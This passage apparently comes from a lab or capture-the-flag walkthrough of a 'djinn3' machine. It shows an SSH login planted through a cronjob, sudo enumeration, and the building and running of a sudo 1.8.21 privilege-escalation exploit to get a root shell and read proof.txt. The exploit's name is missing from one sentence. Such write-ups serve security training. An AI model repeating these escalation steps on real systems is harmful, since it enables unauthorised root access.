

Verify the cronjob is running with pspy:



In a couple minutes, the target fetches my ssh public key:



I now login as sain via ssh:

```bash
$ ssh -i key saint@192.168.122.102
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  3 02:55:54 IST 2023

  System load:  0.24              Processes:           157
  Usage of /:   35.7% of 9.78GB   Users logged in:     0
  Memory usage: 28%               IP address for eth0: 192.168.122.102
  Swap usage:   0%

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

134 packages can be updated.
93 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

saint@djinn3:~$ whoami
saint
```

Check if I have sudo privs:

```bash
saint@djinn3:/home$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```

Now the path to root is clear with sudo. I ran linpeas earlier and saw that the potential to abuse the sudo version, which is 1.8.21. Ultimately, I went with  exploit. 

Bring the exploit over to the machine, compile, then execute and become root:

```bash
saint@djinn3:/tmp$ ls
02-03-2023.config.json  netplan_08wcc_wh  systemd-private-219d08cd97674c36b8d1706413f7cf3f-systemd-resolved.service-zxvh51
exploit.c               netplan_cond8uf0  systemd-private-219d08cd97674c36b8d1706413f7cf3f-systemd-timesyncd.service-befWrh
f                       pspy32            tmux-1000
Makefile                shellcode.c       vmware-root_676-2731021186
saint@djinn3:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
saint@djinn3:/tmp$ ./exploit
# cd root
/bin/sh: 1: cd: can't cd to root
# cd /root
# ls
proof.txt
# cat proof.txt
918e73af9a86463a74a6a7e2d21a4c18
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1002(saint)
# hostname -I
192.168.122.102
```


